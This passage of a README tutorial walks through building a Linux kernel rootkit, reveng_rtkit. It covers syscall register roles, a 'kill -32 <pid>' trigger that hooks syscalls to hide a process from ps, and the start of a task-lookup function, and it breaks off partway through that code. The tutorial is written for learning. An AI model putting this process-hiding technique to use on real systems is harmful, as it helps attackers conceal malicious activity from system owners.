               Dependent registers:
                ```
                1. rax: contains syscall ids.
                2. rdi: which contains the file descriptor.
                3. rsi: which contains the passed arguments.
                4. rdx: length of the passed argument(or string).
                ```
              In this scenario, we will only need **rdi** and **rsi** register. This is because, we need to know the passed argument (**rsi** register, rather **si** register) and as we will be dealing with files, we will ofcourse be needing the file descriptors (**rdi** register, rather **di** register). (Reason was mentioned [here](http://--link---#### Now the question comes, "Why _`si`_ register, why not _`rsi`_ register?"))

              So, a recap about the Workflow of the machanism:
                - When we deliver pid of any process via `kill -32 <pid>`, it will at first find out that particular `pid` by surfing through "`/proc/`" directory.
                - After getting the `pid`, it will perform syscall hooking to hide that particular pid and then offering a new process list (excluding the mentioned pid), if the user tries to see running processes using ***ps***.

                1. Visit: [repo](https://github.com/reveng007/reveng_rtkit/blob/055b7dce57cf1317f13fb3bd141e21c3ec82c5dc/kernel_src/include/hook_syscall_helper.h#L99).
                Finding the process id/ pid:
                    According to [LKM_HACKING](https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#II.5.1.):
                    
                    ```c
                    /* Here, -"&gt;" is the html character entities, which really mean: -">" 
                       I really don't know, how it happened in that site */

                    /* get task structure from PID */
                    struct task_struct *get_task(pid_t pid)
                    {
                      struct task_struct *p = current;
                      do {
                            if (p->pid == pid)
                              return p;
                            p = p->next_task;
                          }
                      while (p != current);
                      return NULL;
                    }
                    ```
                    I wasn't understanding this portion, but yes I was getting an idea that it is looping to get the process ids. So, I tried for loop.
                    ```c
                    // reveng_rtkit

                    #include <linux/sched.h>        /* task_struct: Core info about all the tasks */

                    struct task_struct *find_task(pid_t pid)
                    {
                      struct task_struct *target_process = current;
